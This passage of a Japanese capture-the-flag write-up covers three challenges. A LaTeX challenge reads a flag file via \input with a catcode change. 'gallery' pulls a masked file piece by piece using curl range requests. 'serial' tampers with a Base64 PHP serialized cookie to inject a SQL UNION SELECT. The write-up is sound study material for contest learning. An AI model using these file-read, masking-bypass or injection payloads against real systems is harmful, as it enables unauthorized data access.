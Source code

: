 しかしこれではうまくいきませんでした。その後かなり悩みましたが、フラグに（通常は）数式でしか使えない`_`が含まれているからだとなんとか気づきました。

`\input{\y}`を`\(\)`で囲うとフラグが表示されますが、`_`が欠落してしまいます。そのため、`_`のカテゴリーコードを変更し、`\(\)`の代わりに`\texttt`を使いました。ただ、それでも`{}`が欠落するので後で補うことで完全なフラグを得ました。

```latex
\documentclass{article}
\newcommand{\x}[1]{fl#1}
\newcommand{\y}{\x{ag}}
\begin{document}

\catcode`_=12
\texttt{\input{\y}}

\end{document}
```

## gallery (Web)
画像ファイルをその拡張子で検索し閲覧できるウェブサービスからフラグを得る問題です。

問題の説明文からフラグの書かれたファイルが画像ファイルの中に紛れ込んでいると推測しました。ソースコードを読むと検索に使う文字列は拡張子でなくてもいいことが分かりました。しかしながら、前問同様`flag`という文字列が消されてしまうので、`f`で検索したところ`flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf`というファイルが見つかりました。

このファイルをダウンロードしたいのですが、サーバーはレスポンスの長さが一定量を超えるとその中身をマスキングしてしまいます。マスキングを回避するにはファイルを分割してダウンロードできればいいのでその方法を調べたところ[range request](https://developer.mozilla.org/en-US/docs/Web/HTTP/Range_requests)というものがあることが分かりました。

最終的にrange requestで得られたファイルの断片を結合しその中身を見ることでフラグが得られました。

```bash
curl https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -H "Range: bytes=0
-10000" -o p1
curl https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -H "Range: bytes=10001-20000" -o p2
cat p1 p2 > flag.pdf
```

## serial (Web)
データベースからフラグを得る問題です。

SQL injectionができるところを探して、`database.php`の`findUserByName`という関数を見つけました。さらにこの関数はログイン時に使用されていて、`__CRED`という名前のクッキーに保存されているユーザー情報を改ざんできればSQL injectionができることが分かりました。

`__CRED`にはユーザー情報をBase64エンコードしたものが保存されていました。それを`base64 -d`でデコードすると以下のような文字列が得られました。
```
O:4:"User":3:{s:2:"id";s:2:"12";s:4:"name";s:1:"a";s:13:"password_hash";s:60:"$2y$10$CUhtPLDsV98Mi4sFrfEclO7VK0wna9H/nxN9zd2pB5bEeEtrisVt6";}
```

この文字列の`name`の部分を変えて以下のような文字列を作りました（`s:`の直後の数値を`serial(中略)'' = '`の文字数に変えています）。
```
O:4:"User":3:{s:2:"id";s:2:"12";s:4:"name";s:130:"serialserialserial' UNION SELECT body, 'a', '$2y$10$CUhtPLDsV98Mi4sFrfEclO7VK0wna9H/nxN9zd2pB5bEeEtrisVt6' FROM flags WHERE '' = '";s:13:"password_hash";s:60:"$2y$10$CUhtPLDsV98Mi4sFrfEclO7VK0wna9H/nxN9zd2pB5bEeEtrisVt6";}
```
